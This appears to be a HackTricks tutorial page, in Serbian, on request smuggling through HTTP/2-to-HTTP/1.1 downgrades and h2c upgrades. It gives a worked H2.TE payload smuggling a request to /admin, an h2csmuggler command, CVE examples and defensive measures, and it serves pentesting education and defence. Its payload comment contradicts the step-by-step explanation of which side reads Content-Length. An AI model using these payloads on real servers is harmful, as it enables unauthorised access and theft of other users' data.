 # Request Smuggling in HTTP/2 Downgrades

{{#include ../../banners/hacktricks-training.md}}

HTTP/2 se generalno smatra imunim na klasično request-smuggling jer je dužina svakog DATA okvira eksplicitna. **Ta zaštita nestaje čim front-end proxy “downgrade”-uje zahtev na HTTP/1.x pre nego što ga prosledi back-end-u**. U trenutku kada dva različita parsera (HTTP/2 front-end i HTTP/1 back-end) pokušaju da se dogovore gde jedan zahtev završava, a drugi počinje, svi stari desync trikovi se vraćaju – plus nekoliko novih.

---
## Zašto se downgrade-ovi dešavaju

1. Pregledači već govore HTTP/2, ali mnogo nasleđene infrastrukture još uvek razume samo HTTP/1.1.
2. Reverzni proxy-ji (CDN-ovi, WAF-ovi, load-balanceri) stoga završavaju TLS + HTTP/2 na ivici i **prepisuju svaki zahtev kao HTTP/1.1** za izvor.
3. Korak prevođenja mora da kreira *oba* `Content-Length` **i/ili** `Transfer-Encoding: chunked` zaglavlja kako bi izvor mogao da odredi dužinu tela.

Kad god front-end veruje u dužinu HTTP/2 okvira **ali** back-end veruje u CL ili TE, napadač može da ih primora da se ne slažu.

---
## Dve dominantne primitivne klase

| Variant | Front-end length | Back-end length | Typical payload |
|---------|-----------------|-----------------|-----------------|
| **H2.TE** | HTTP/2 frame | `Transfer-Encoding: chunked` | Uključite dodatno chunked telo poruke čiji konačni `0\r\n\r\n` *nije* poslat, tako da back-end čeka na napadačem obezbeđen “sledeći” zahtev. |
| **H2.CL** | HTTP/2 frame | `Content-Length` | Pošaljite *manji* CL od stvarnog tela, tako da back-end čita preko granice u sledeći zahtev. |

> Ove su identične u duhu klasičnim TE.CL / CL.TE, samo sa HTTP/2 koji zamenjuje jedan od parsera.

---
## Identifikacija downgrade lanca

1. Koristite **ALPN** u TLS rukovanju (`openssl s_client -alpn h2 -connect host:443`) ili **curl**:
```bash
curl -v --http2 https://target
```
Ako se pojavi `* Using HTTP2`, ivica govori H2.
2. Pošaljite namerno neispravan CL/TE zahtev *preko* HTTP/2 (Burp Repeater sada ima padajući meni za forsiranje HTTP/2). Ako je odgovor HTTP/1.1 greška kao što je `400 Bad chunk`, imate dokaz da je ivica konvertovala saobraćaj za HTTP/1 parser nizvodno.

---
## Eksploatacija radnog toka (H2.TE primer)
```http
:method: POST
:path: /login
:scheme: https
:authority: example.com
content-length: 13      # ignored by the edge
transfer-encoding: chunked

5;ext=1\r\nHELLO\r\n
0\r\n\r\nGET /admin HTTP/1.1\r\nHost: internal\r\nX: X
```
1. **front-end** čita tačno 13 bajtova (`HELLO\r\n0\r\n\r\nGE`), misli da je zahtev završen i prosleđuje toliko ka originu.
2. **back-end** veruje TE header-u, nastavlja da čita dok ne vidi *drugi* `0\r\n\r\n`, čime konzumira prefiks napadačevog drugog zahteva (`GET /admin …`).
3. Ostatak (`GET /admin …`) se tretira kao *novi* zahtev koji je u redu iza žrtvinog.

Zamenite prokrijumčaren zahtev sa:
* `POST /api/logout` da primorate fiksaciju sesije
* `GET /users/1234` da ukradete resurs specifičan za žrtvu

---
## h2c smuggling (nadogradnje u čistom tekstu)

Studija iz 2023. godine pokazala je da ako front-end prosledi HTTP/1.1 `Upgrade: h2c` header back-end-u koji podržava HTTP/2 u čistom tekstu, napadač može tunelovati *sirove* HTTP/2 okvire kroz ivicu koja je samo validirala HTTP/1.1. Ovo zaobilazi normalizaciju header-a, WAF pravila i čak TLS terminaciju.

Ključni zahtevi:
* Ivica prosleđuje **oba** `Connection: Upgrade` i `Upgrade: h2c` nepromenjena.
* Origin se povećava na HTTP/2 i zadržava semantiku ponovne upotrebe konekcije koja omogućava red čekanja zahteva.

Ublažavanje je jednostavno – uklonite ili hard-kodirajte `Upgrade` header na ivici osim za WebSocket.

---
## Značajni stvarni CVE-ovi (2022-2025)

* **CVE-2023-25690** – Apache HTTP Server mod_proxy pravila prepravke mogla su se povezati za deljenje i prokrijumčarenje zahteva. (ispravljeno u 2.4.56)
* **CVE-2023-25950** – HAProxy 2.7/2.6 prokrijumčarenje zahteva/odgovora kada je HTX parser pogrešno obradio pipelined zahteve.
* **CVE-2022-41721** – Go `MaxBytesHandler` je uzrokovao da preostali bajtovi tela budu analizirani kao **HTTP/2** okviri, omogućavajući prokrijumčarenje između protokola.

---
## Alati

* **Burp Request Smuggler** – od v1.26 automatski testira H2.TE/H2.CL i skrivenu ALPN podršku. Omogućite “HTTP/2 probing” u opcijama ekstenzije.
* **h2cSmuggler** – Python PoC od Bishop Fox-a za automatizaciju napada nadogradnje u čistom tekstu:
```bash
python3 h2csmuggler.py -u https://target -x 'GET /admin HTTP/1.1\r\nHost: target\r\n\r\n'
```
* **curl**/`hyper` – kreiranje ručnih payload-a: `curl --http2-prior-knowledge -X POST --data-binary @payload.raw https://target`.

---
## Defensivne mere

1. **End-to-end HTTP/2** – potpuno eliminisati prevod nadogradnje.
2. **Jedinstveni izvor dužine istine** – prilikom snižavanja, *uvek* generišite validan `Content-Length` **i** **uklonite** sve korisnički dostavljene `Content-Length`/`Transfer-Encoding` header-e.
3. **Normalizujte pre rute** – primenite sanitizaciju header-a *pre* logike usmeravanja/prepravke.
4. **Izolacija konekcije** – ne ponovo koristite back-end TCP konekcije između korisnika; “jedan zahtev po konekciji” poražava eksploate zasnovane na redu.
5. **Uklonite `Upgrade` osim WebSocket** – sprečava h2c tunelovanje.

---
## Reference

* PortSwigger Research – “HTTP/2: The Sequel is Always Worse” <https://portswigger.net/research/http2>
* Bishop Fox – “h2c Smuggling: request smuggling via HTTP/2 clear-text” <https://bishopfox.com/blog/h2c-smuggling-request>

{{#include ../../banners/hacktricks-training.md}}
